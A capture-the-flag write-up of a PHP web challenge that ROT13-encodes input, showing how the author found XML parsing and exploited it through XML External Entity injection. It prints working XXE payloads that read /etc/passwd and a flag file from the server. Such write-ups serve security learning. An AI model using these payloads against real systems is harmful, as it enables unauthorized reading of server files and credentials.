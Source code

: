 # CipherText

# Description

```
Can you find the vulnerability in this "not at all usefull" Web app ? It might be due to not staying up to date.

https://web.ctf.devclub.in/web/3/
```

Not gonna lie, this challenge seemed like super secure and simple to me. It literally just rot13's the text you provide. By this time, I had solved all the other web challs, and I had no single clue of what's happening behind the back. From the challenge hint, it seemed like version update kinda issue, so I checked the PHP version, it was 5.6.14. It was pretty insecure, but which vuln do we exploit? With so many questions storming up my mind, I decided to open my swiss army knife, the legendary **Burp Suite**. Also, note that no hints were released by this time.

# Observation

Here are some of the approaches I thought, which might be happening in the background

Hmm...interesting? I tried entering the following text to confirm my understanding

- Sending array like `text[]=aryaman`

![burp-array](burp-1.png)

Now, we know that it uses `str_rot13()` in PHP to rot13 our text

- Sending some serialized string, but didn't result in any error, so no use

Still there was no significant progress, I grabbed a cup of coffee and returned after 10 mins, staring at the response in burp, in a hope that it will spit out the flag, when something caught my attention:

![Header](header.png)

Wait...what?! It accepts XML data too. Seems like, we're getting somewhere. Next, I tried injecting some XML data and it accepted it 

```xml
<!--?xml version="1.0" ?-->
<userInfo>
 <text>aryaman</text>
</userInfo>
```

Let's try to leak some more details by causing errors:

Payload:

```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY example pub "titan"> ]>
 <userInfo>
  <text>&example;</text>
 </userInfo>
```

Result: 

![Error-XML](warning.png)

On looking up about `DOMDocument::loadXML()` online, I found some interesting [blogs](https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection) on exploit POC of this vulnerability.


# Exploitation

Now that we know, it's accepting XML data and parsing them using `DOMDocument::loadXML()`, let's try to exploit it using XXE(XML External Entity injection)

Payload: 

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<creds>
    <text>&xxe;</text>
</creds>
```

It needs to be wrapped in the `creds` tree root, because while parsing the server would try to retrieve the value 
in something like:

```php
$creds = simplexml_import_dom($dom);
$text = $creds->text //our input
```

Result: 

![Passwd](passwd.png)

And now we've got some major progress over the challenge, as we've the rot13'ed /etc/passwd, so basically we can read any file in the server --> LFI vulnerability.

# Final payload

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [ <!ELEMENT foo ANY >
<!ENTITY xxe SYSTEM "file:///flag.txt" >]>
<creds>
    <text>&xxe;</text>
</creds>
```

![flag](flag.png)

We got this as the result: `PGS{byjlf_hm_yngrfg_f0sgjner}`

On putting it in [rot13](https://rot13.com), we have our flag. This challenge was probably my favorite challenge in this CTF, as it required awesome observational skills chained with web security knowledge to capture the flag.

Flag: ```CTF{olwys_uz_latest_s0ftware}```